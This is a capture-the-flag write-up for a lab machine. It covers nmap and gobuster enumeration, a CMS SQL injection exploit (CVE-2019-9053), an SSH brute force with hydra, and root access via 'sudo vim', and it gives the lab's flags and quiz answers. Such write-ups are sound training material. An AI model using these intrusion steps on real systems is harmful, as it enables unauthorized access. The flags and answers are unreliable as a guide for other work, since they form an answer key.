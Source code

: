 # Simple CTF writeup
The first task when beggining a CTF is enumeration

## Nmap 
```bash
namp -T4 -sV 10.10.140.110
```
The Nmap flag ```-sV``` is useful as it returns details to do with the versions of services running on the target 

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
```
### How many services are running under port 1000?
We have found 3 ports 21, 80, 2222. 
since 2222 is greater than 1000 the answer is
> 2
### What is running on the higher port?
> ssh

## Port 80: Apache
![image](./ScreenShots/webserver.png)
Let's continue enumeration using Gobuster

## Gobuster
```
gobuster dir -u 10.10.140.110 -w /usr/share/wordlists/dirb/common.txt
```
To find Directories in the web server
```
/.hta                 (Status: 403) [Size: 292]
/.htaccess            (Status: 403) [Size: 297]
/.htpasswd            (Status: 403) [Size: 297]
/index.html           (Status: 200) [Size: 11321]
/robots.txt           (Status: 200) [Size: 929]
/server-status        (Status: 403) [Size: 301]
/simple               (Status: 301) [Size: 315] [--> http://10.10.140.110/simple/]
```
_Useful findings : ``/robots.txt``, ``/simple``_

### /robots.txt
![image](./ScreenShots/robots.png)

### /simple
![image](./ScreenShots/simple.png)
##### It appears that this site is using content management system(CMS). I scrolled down the page, and was able to find what version of this software is
![image](./ScreenShots/exploitdb.png)
##### After searching for the version in exploit db ,I found that there is an sql injuction vulnerablity in that version
![image](./ScreenShots/exploit.png)
### What's the CVE you're using against the application?
> CVE-2019-9053

### To what kind of vulnerability is the application vulnerable?
The shorthand for sqlInjuction is sqli
> sqli

```python3 46635.py -u http://10.10.117.187/simple/ -w rockyou.txt -c```
but its not working properly since it is built for older version of python
so use hydra to bruteforce username and password
```bash
hydra -l usernames.txt -P best110.txt ssh://10.10.140.110:2222 -t 4
```
[Username wordlist](./usernames.txt),
[Password wordlist](./best110.txt)
```
[DATA] attacking ssh://10.10.140.110:2222/
[2222][ssh] host: 10.10.140.110   login: mitch   password: secret
```
### What's the password?
> secret

### Where can you login with the details obtained?
we got ssh user name and password 
> ssh
## Login into ssh
```
ssh mitch@10.10.140.110 -p 2222
pasword: secret
```
![image](./ScreenShots/ssh.png)

### What's the user flag?
![image](./ScreenShots/user.png)
```
cat user.txt
```
> G00d j0b, keep up!

### Is there any other user in the home directory? What's its name?
```
ls /home
```
![image](./ScreenShots/users.png)
> sunbath

### What can you leverage to spawn a privileged shell?
```
sudo -l
```
![image](./ScreenShots/vim.png)
> vim
## Escalate Privilage
To escalate privilage we need to exploit vim
```
sudo vim
```
![image](./ScreenShots/shell1.png)
![image](./ScreenShots/root1.png)

### What's the root flag?
![image](./ScreenShots/final.png)
> W3ll d0n3. You made it!
